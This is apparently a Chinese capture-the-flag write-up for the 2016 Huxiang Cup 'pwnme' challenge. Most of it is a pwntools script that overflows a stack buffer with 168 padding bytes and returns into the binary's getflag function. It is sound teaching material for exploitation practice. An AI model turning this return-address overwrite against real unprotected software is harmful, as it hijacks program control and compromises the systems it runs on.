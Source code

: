 ```yaml
---
title: 2016 湖湘杯 pwnme
tags: [CTF, pwn]
layout: post
categories: writeups
---
```


题目下载链接: [pwnme](http://od7mpc53s.bkt.clouddn.com/2016-hxb-pwnme)

没有开启任何保护，思路就是利用`pattern`确定函数返回地址，返回到`getflag`函数

``` python 
#!usr/bin/env python

from pwn import *

context.log_level = 'debug'

addr_getflag = 0x08048677
payload = 'A' * 168
payload += p32(addr_getflag)

bin = process('./pwnme')
bin.recvuntil('6. Exit    \n')
bin.sendline('5')
bin.recvuntil('Please input the name of fruit:')
bin.sendline(payload)
bin.recvuntil('you got it...')

flag = bin.recv(100)
print flag
```